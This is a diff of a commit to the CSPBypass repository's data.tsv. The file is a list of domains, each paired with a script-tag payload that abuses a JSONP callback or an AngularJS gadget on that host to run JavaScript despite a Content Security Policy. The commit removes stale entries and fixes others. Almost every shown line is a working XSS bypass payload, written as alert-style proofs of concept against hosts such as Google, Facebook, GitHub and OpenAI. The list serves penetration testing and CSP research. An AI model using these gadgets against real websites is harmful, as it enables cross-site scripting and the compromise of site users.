

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
Removed bypasses that no longer work. Made some small changes to ones that need https or had syntax errors.

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -19,3 +18,2 @@ api.dailymotion.com	<script src="https://api.dailymotion.com/video/x5gv6be?callb
 api.duckduckgo.com	<script src="https://api.duckduckgo.com/?q=x&callback=alert&format=json"></script>
-api.facebook.com	<script src="https://api.facebook.com/restserver.php?method=fql.query&callback=alert"></script>
 api.flickr.com	<script src="https://api.flickr.com/services/feeds/photos_friends.gne?user_id=44979707@N00&friends=0&display_all=1&format=json&jsoncallback=alert"></script>
@@ -23,3 +21,2 @@ api.forismatic.com	<script src="https://api.forismatic.com/api/1.0/?format=jsonp
 api.getdrip.com	<script src="https://api.getdrip.com/client/forms/show?callback=alert(1)-"></script>
-api.github.com	<script src="https://api.github.com/gist/anything?callback=alert"></script>
 api.ipify.org	<script src="https://api.ipify.org/?format=jsonp&callback=alert(1)//"></script>
@@ -27,4 +24,2 @@ api.m.jd.com	<script src="https://api.m.jd.com/api?appid=x&functionId=x&jsonp=al
 api.map.baidu.com	<script src="https://api.map.baidu.com/api?v=2.0&ak=&s=1&callback=alert(document.domain)"></script>
-api.meetup.com	<script src="https://api.meetup.com/Toronto-Code-Mentoring/events?callback=alert"></script>
-api.microsofttranslator.com	<script src="https://api.microsofttranslator.com/V2/Ajax.svc/GetLanguagesForTranslate?oncomplete=alert&appId=417CEAD93449502CC3C9B69FED26C54118E62BCC"></script>
 api.mixpanel.com	<script src="https://api.mixpanel.com/track/?callback=alert(1337)"></script>
@@ -73,4 +67,3 @@ content.akamai.com	<script src="https://content.akamai.com/index.php/form/getFor
 count-server.sharethis.com	<script src="https://count-server.sharethis.com/v2.0/get_counts?cb=alert"></script>
-cse.google.com	<script src="https://cse.google.com/cse/element/v1?cx=000470283453218169915:hcrzdwsiwrc&callback=alert"></script>
-clients1.google.com	<script src="http://clients1.google.com/complete/search?callback=alert&q=PIC&nolabels=t&client=youtube&ds=yt&_=1361575554883"></script>
+clients1.google.com	<script src="https://clients1.google.com/complete/search?callback=alert&q=PIC&nolabels=t&client=youtube&ds=yt&_=1361575554883"></script>
 clients6.google.com	<script src="https://clients6.google.com/drive/v2beta/files?callback=alert(1)"></script>
@@ -82,5 +75,3 @@ demo.matomo.cloud	<script src="https://demo.matomo.cloud/?module=API&method=Over
 dev.virtualearth.net	<script src="https://dev.virtualearth.net/REST/v1/Imagery/Metadata/Road?jsonp=alert(document.domain);//"></script>
-developer.apple.com	<script src="https://developer.apple.com/search/scripts/vendor/angular-custom.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 documentation-resources.opendatasoft.com	<script src="https://documentation-resources.opendatasoft.com/api/datasets/1.0/doc-geonames-cities-5000/?format=jsonp&callback=confirm(1);"></script>
-don.bild.de	<script src="https://don.bild.de/glg/userDetails?callback=alert"></script>
 dpm.demdex.net	<script src="https://dpm.demdex.net/id?d_cb=alert"></script>
@@ -173,4 +158,2 @@ sync.im-apps.net	<script src="https://sync.im-apps.net/imid/segment?callback=ale
 tagmanager.google.com	<script src="https://tagmanager.google.com/debug/api/vtinfo?gtm_auth=a-0uanYFkML7e3v7Vmxpwg&env_id=env-8&public_id=GTM-TWMCBFD&templates=&callback=alert"></script>
-tcr9i.openai.com	<script src="https://tcr9i.openai.com/fc/a/?callback=alert"></script>
-thehive.shopify.io	<script src="https://thehive.shopify.io/scripts/vendor.78eed977.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 thiscanbeanything.zendesk.com	<script src="https://thiscanbeanything.zendesk.com/sc/faye/?message=[{%22channel%22:%22%22}]&jsonp=alert"></script>
```
Also changed, not shown: 10 removed rows and 2 edited cells elsewhere in this file, 1 other file.
